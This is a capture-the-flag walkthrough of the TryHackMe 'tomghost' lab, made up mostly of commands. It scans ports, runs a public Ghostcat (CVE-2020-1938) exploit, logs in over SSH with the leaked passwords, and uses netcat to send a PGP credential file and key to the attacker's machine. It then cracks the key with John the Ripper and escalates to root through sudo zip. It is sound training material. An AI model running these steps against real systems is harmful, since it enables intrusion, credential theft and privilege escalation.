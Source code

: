 # tomghost

### Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Victim**

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git 
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/
python2 CVE-2020-1938.py $VICTIM -p 8009 -f WEB-INF/web.xml
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh skyfuck@$VICTIM
Password: 8730281lkjlkjdqlksalks
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Netcat <a href="#netcat" id="netcat"></a>

**Kali(receiving)**

```
nc -l -p 1234 > credential.pgp
nc -l -p 1234 > tryhackme.asc
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < credential.pgp
nc -w 3 $KALI 1234 < tryhackme.asc
```

**Kali**

```
/opt/john/gpg2john tryhackme.asc > pgp.hash
john pgp.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --import tryhackme.asc 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --decrypt credential.pgp 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation  <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh merlin@$VICTIM
Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

**Exploit:** [https://gtfobins.github.io/gtfobins/zip/](https://gtfobins.github.io/gtfobins/zip/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
